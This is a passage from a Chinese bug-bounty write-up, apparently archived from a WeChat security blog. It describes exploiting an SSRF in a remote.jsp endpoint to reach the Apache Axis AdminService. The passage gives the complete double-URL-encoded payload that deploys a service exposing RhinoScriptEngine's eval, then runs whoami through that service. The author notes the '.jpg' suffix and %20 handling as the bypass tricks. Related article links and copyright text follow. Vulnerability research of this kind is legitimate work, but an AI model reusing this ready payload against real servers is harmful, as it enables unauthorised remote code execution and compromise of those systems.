

###### _**第四次尝试：**_

咋办??


最后灵机一动，试一下 urlencode 双重编码, 成功了。

```
http://localhost:8080/remote.jsp?upfile=http://127.0.0.1:8080/axis/services/AdminService?method=!--%253E%253Cdeployment%250dx mlns%253D%2522http%253A%252F%252Fx ml.apache.org%252Faxis%252Fwsdd%252F%2522%250dx mlns%253Ajava%253D%2522http%253A%252F%252Fx ml.apache.org%252Faxis%252Fwsdd%252Fproviders%252Fjava%2522%253E%253Cservice%250dname%253D%2522mxxgege%2522%250dprovider%253D%2522java%253ARPC%2522%253E%253Cparameter%250dname%253D%2522className%2522%250dvalue%253D%2522com.sun.s cript.j avas cript.Rhinos criptEngine%2522%250d%252F%253E%253Cparameter%250dname%253D%2522allowedMethods%2522%250dvalue%253D%2522e val%2522%250d%252F%253E%253CtypeMapping%250ddeserializer%253D%2522org.apache.axis.encoding.ser.BeanDeserializerFactory%2522%250dtype%253D%2522java%253Ajavax.s cript.Simples criptContext%2522%250dqname%253D%2522ns%253ASimples criptContext%2522%250dserializer%253D%2522org.apache.axis.encoding.ser.BeanSerializerFactory%2522%250dx mlns%253Ans%253D%2522urn%253Abeanservice%2522%250dregenerateElement%253D%2522false%2522%253E%253C%252FtypeMapping%253E%253C%252Fservice%253E%253C%252Fdeployment%253E%253Cxx.jpg%253E%253C%2Fxx.jpg
```

成功了，出现了我们预期的效果。  
  
成功注册服务  


###### _**第五次尝试：**_

接下来，直接访问我们部署的服务即可。执行 whoami。  


#### _**总结**_

觉得这个漏洞可以作为 CTF 来出，挺有意思的一个漏洞，关键点，.jpg 绕过，%20 处理。

  

---

END

  

【版权说明】本作品著作权归 maoge 所有，授权补天漏洞响应平台独家享有信息网络传播权，任何第三方未经授权，不得转载。

  

  


maoge

  

一个无战队的随缘挖洞的补天白帽子

**敲黑****板！转发≠学会，课代表给你们划重点了**

**复习列表**

  

  

  

  

  

[记一次文件上传的曲折经历](http://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247489568&idx=1&sn=56beddb5ef58d9556d75bbd8dd146dd2&chksm=eafa506cdd8dd97a9420b312770c8ea1bdeb0394ce38ef54834e60e91c0b404f934ac494ca3c&scene=21#wechat_redirect)

  

[代码审计之 eyouCMS 最新版 getshell 漏洞](http://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247489781&idx=1&sn=a2d0ccd466dfa95067f223c8318a316d&chksm=eafa50b9dd8dd9af45ef4fcf23074aeecc196dc72b3ff447282a9e6ea9904dcc08fe72430d30&scene=21#wechat_redirect)

  

[硬核黑客笔记 - 怒吼吧电磁波 (上)](http://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247489491&idx=1&sn=4ab4db01f63ca3c82c155d82c92b2662&chksm=eafa5f9fdd8dd689bc8cbcde1bb488372f50008619d25ca292753b0356eba4ea405db20349b4&scene=21#wechat_redirect)

  

[从 WEB 弱口令到获取集权类设备权限的过程](http://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247489456&idx=1&sn=a156b1a398e53e0c0d1cc1b8f4bc78f7&chksm=eafa5ffcdd8dd6eae463303a99720247160a79218e86ee494c5defbf6e9d4be0a9b63b13775c&scene=21#wechat_redirect)

  

[一个域内特权提升技巧 | 文末双重福利](http://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247489414&idx=1&sn=f9addeb81e8a2ea160e043ee2b19a4cf&chksm=eafa5fcadd8dd6dc815cdbd43b7311a447ccabb35c98519237448cb643d183b2c264e073bc16&scene=21#wechat_redirect)

  

[php 无文件攻击浅析](http://mp.weixin.qq.com/s?__biz=MzI2NzY5MDI3NQ==&mid=2247489820&idx=1&sn=5fe5827ab1f5ef7175449be8a822bf08&chksm=eafa5150dd8dd8463acab35b71b0db213923508055ed0e1dd106788206e42de8dc80c5d58232&scene=21#wechat_redirect)

  

  

  

分享、点赞、在看，一键三连，yyds。


  

点击阅读原文，加入社区，获取更多技术干货！

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
